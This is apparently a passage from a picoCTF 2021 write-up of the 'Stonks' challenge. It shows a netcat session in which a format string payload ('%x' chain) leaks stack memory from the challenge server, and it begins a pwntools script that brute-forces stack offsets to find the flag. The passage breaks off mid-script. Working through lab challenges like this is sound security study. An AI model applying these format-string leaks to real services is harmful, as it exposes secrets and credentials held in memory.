 With specially crafted input we can leak data from the stack were the flag/api is stored.

### Leak data from the stack 

Let's connect to the server and try to leak some data from the stack
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Binary_Exploitation/Stonks]
└─$ nc mercury.picoctf.net 16439
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
Buying stonks with token:
940f3b0.804b000.80489c3.f7f1fd80.ffffffff.1.940d160.f7f2d110.f7f1fdc7.0.940e180.1.940f390.940f3b0.6f636970.7b465443.306c5f49.345f7435.6d5f6c6c.306d5f79
Portfolio as of Fri Aug 11 17:23:43 UTC 2023


1 shares of ORSS
3 shares of IG
19 shares of BIPC
6 shares of JM
1192 shares of QU
729 shares of KK
Goodbye!
```

It works. We have read values from the stack and printed them as hexadecimal values with the format string specifier `%x`.  
For easier readability I have used a delimiter, '.' in this case, between the values. 

### Find the offset to the flag

But where on the stack is the flag stored? How many integers do we need to read from the stack until the flag starts?

Let's utilies [pwntools](https://docs.pwntools.com/en/stable/index.html) to automate this with a `find_offset.py` script
```python
#!/usr/bin/python

from pwn import *

SERVER = 'mercury.picoctf.net'
PORT = 16439
FLAG_START = 'pico'

# Set output level (critical, error, warning, info, debug)
context.update(log_level = "warning")
for i in range(1, 25):
    io = remote(SERVER, PORT)    
    io.sendlineafter(b"2) View my portfolio\n", b"1")
    io.sendlineafter(b"What is your API token?\n", f"%{i}$x")
    io.recvuntilS(b"Buying stonks with token:\n")
    out = io.recvline()
    try:
        # Little endian case
        res_le = p32(int(out.decode(), 16), endianness="little").decode()
        if (res_le == FLAG_START):
```